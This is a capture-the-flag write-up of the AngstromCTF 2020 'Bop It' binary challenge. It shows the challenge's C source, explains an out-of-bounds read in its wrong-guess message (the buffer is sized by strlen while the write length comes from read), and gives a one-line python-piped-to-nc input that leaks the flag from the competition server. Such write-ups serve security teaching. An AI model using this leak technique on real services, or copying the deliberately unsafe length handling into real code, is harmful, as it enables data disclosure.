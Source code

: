 ```yaml
---
layout: post
title: AngstromCTF 2020 - Bop It
excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
categories: [angstromctf 2020]
---
```


Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).

{% highlight c %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}
{% endhighlight %}

Upon first glance the code looks somewhat complicated. After some trial and error though, it is clear that there is a bug in the `write` call when action is "Flag It!". The variable `wrong` is initialized with a size of `strlen(guess)+35`, and is written to stdout. The problem is that the strlen function stops at null bytes, but the guessLen variable will not (it is set from the read function). Whenever guessLen+35 gets larger than the `wrong` variable to be written, `write` will continue to give data after the end of the `wrong` buffer, and memory will be leaked. Seeing that the flag has been opened whenever this write is called reassures us that we are on the right track.

Since the exploit is simple I used inline python. You can see that it takes a few times before hitting the "Flag It!" action, but once we do memory is leaked.

```
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Twist it!
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Flag it!
 was wrong. Better luck next time!
?GXU?GXU"?GXUactf{bopp1ty_bop_bOp_b0p}?"?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~      root@9903d51849b1 /pwn# 
```

In this string we can see `actf{bopp1ty_bop_bOp_b0p}` which is the flag to the challenge!